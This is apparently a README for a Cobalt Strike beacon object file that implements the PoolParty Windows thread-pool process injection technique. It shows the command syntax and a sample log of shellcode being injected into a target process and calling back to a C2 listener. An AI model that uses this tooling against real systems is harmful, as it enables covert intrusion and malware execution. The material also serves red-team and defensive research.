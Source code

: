 # PoolParty BOF

A beacon object file implementation of [PoolParty Process Injection Technique](https://github.com/SafeBreach-Labs/PoolParty/) by [@_SafeBreach_](https://www.safebreach.com/) and [@_0xDeku_](https://twitter.com/_0xDeku), that abuses Windows Thread Pools. The BOF supports the 5 technique/variant:
- Insert TP_TIMER work item to the target process's thread pool.
- Insert TP_ALPC work item to the target process's thread pool.
- Insert TP_JOB work item to the target process's thread pool.
- Insert TP_DIRECT work item to the target process's thread pool.
- Insert TP_TIMER work item to the target process's thread pool.

I will try to keep adding remaining variants.

## Usage
```
PoolPartyBof <Process ID> <Listener Name> <Variant>
```

- Usage Examples

```
PoolPartyBof 3092 HTTPSLocal 6
[*] Opening 3092 and running PoolParty (6 Varient) with HTTPSLocal listener!
[+] host called home, sent: 313519 bytes
[+] received output:
[INFO] 	Shellcode Size: 307204 bytes
[+] received output:
[INFO] 	Starting PoolParty attack against process id: 3092
[+] received output:
[INFO]   Retrieved handle to the target process: 0000000000000670
[+] received output:
[INFO]   Hijacked I/O completion handle from the target process: 66c
[+] received output:
[INFO]   Allocated shellcode memory in the target process: 0000021331760000
[+] received output:
[INFO]   Written shellcode to the target process
[+] received output:
[INFO] 	Created job object with name `HDWCJWPZ`
[+] received output:
[INFO] 	Created TP_JOB structure associated with the shellcode
[+] received output:
[INFO] 	Allocated TP_JOB memory in the target process: 00000213313F0000
[+] received output:
[INFO] 	Written the specially crafted TP_JOB structure to the target process
[+] received output:
[INFO] 	Zeroed out job object `HDWCJWPZ` IO completion port
[+] received output:
[INFO] 	Associated job object `HDWCJWPZ` with the IO completion port of the target process worker factory
[+] received output:
[INFO] 	Assigned current process to job object `HDWCJWPZ` to queue a packet to the IO completion port of the target process worker factory
[+] received output:
[INFO] 	PoolParty attack completed.
```

![](img/PoolPartyBof.png)

> The BOF can be further used with [Process Injection Hooks](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/malleable-c2-extend_control-process-injection.htm) provided within Cobaltstrike, and [Rastamouse](https://twitter.com/_RastaMouse) has a perfect [blog](https://offensivedefence.co.uk/posts/cs-process-inject-kit/) too.


### Credits and Orginal Work
- [Blackhat Slides](https://www.blackhat.com/eu-23/briefings/schedule/#the-pool-party-you-will-never-forget-new-process-injection-techniques-using-windows-thread-pools-35446)
- [Alon Leviev](https://twitter.com/_0xDeku)
- [SafeBreach](https://www.safebreach.com/)

